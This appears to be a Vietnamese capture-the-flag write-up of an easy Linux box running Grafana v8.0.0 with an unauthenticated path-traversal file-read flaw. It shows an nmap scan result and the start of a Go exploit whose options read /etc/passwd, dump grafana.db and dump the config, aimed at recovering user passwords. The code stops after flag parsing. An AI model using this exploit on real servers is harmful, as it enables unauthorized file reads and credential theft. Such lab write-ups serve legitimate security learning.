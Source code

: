 ## Tổng quan

Đây là một máy linux dễ, có lỗ hổng Path Traversal vì sử dụng grafana phiên bản v8.0.0 , có thể truy xuất data từ đó lấy được users password.

## Rà quét

![[Pasted image 20241104095714.png]]

Thông tin rà quét từ `nmap` thấy rằng server chỉ mở 2 cổng 22 và 3000.

## Khai thác cổng 3000

![[Pasted image 20241104095826.png]]

Tôi tiến hành tìm kiếm các khai thác phiên bản này và có được thông tin

![[Pasted image 20241104095937.png]]
Đây là lỗ hổng đọc tệp mà không cần xác thực. Mã khai thác được viết bằng go

```
package main
import (
"bufio"
"crypto/tls"
"errors"
"flag"
"fmt"
"io"
"net/http"
"os"
"strings"
)
type Options struct {
list string
target string
file string
output string
dumpDatabase bool
dumpConfig bool
}
var client = &http.Client{
Transport: &http.Transport{
TLSClientConfig: &tls.Config{InsecureSkipVerify: true},
},
}
func log(level, message string) {
fmt.Printf("[%s] %s\n", strings.ToUpper(level), message)
if level == "fatal" {
os.Exit(1)
}
}
func main() {
options := &Options{}
flag.StringVar(&options.list, "list", "", "List of targets")
flag.StringVar(&options.target, "target", "", "Single target to run against")
flag.StringVar(&options.file, "file", "", "Path to file (Ex: /etc/passwd)")
flag.StringVar(&options.output, "output", "", "Output to file (Only for single targets)")
flag.BoolVar(&options.dumpDatabase, "dump-database", false, "Dump sqlite3 database (/var/lib/grafana/grafana.db)")
flag.BoolVar(&options.dumpConfig, "dump-config", false, "Dump defaults.ini config file (conf/defaults.ini)")
flag.Parse()
```